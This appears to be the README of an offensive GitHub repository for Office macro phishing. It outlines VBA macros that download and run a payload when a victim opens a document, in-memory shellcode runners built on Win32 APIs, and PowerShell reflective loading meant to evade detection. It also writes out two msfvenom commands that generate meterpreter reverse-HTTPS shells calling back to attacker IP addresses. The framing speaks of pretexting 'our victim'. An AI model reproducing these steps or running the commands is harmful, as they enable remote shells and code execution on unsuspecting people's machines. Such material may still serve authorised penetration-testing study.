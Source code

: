 Basic phishing to auto download our payload than auto execute using vba

phish.vba


Remember to pretext our victim
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/5683bbc3-0abb-40a1-9e22-69a2ce8f080f)

Intermediate rce via phishing by running executed shellcode in memory by using three Win32 APIs from Kernel32.dll:  
VirtualAlloc_, RtlMoveMemory, and _CreateThread

runner.vba

Will exit when you close office 
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/ee96d583-50fa-4ff8-ad86-677e35bb54f5)

msfvenom -p  windows/meterpreter/reverse_https lhost=10.10.11.135 lport=443 EXITFUN=thread -f vbapplication


run.ps1 and auto.vba(download and execute run.ps1 from word)
using powershell to call win32 api to execute reverse shell 
To prevent termination added wait forever 
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/16262bf9-823f-4ef6-a482-64ecb68ecbf8)


run2.ps1 and auto.vba
Without calling the add-type function and using reflective technique to evade. 
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/b59c891f-c500-4bd2-9885-ab7af799c861)
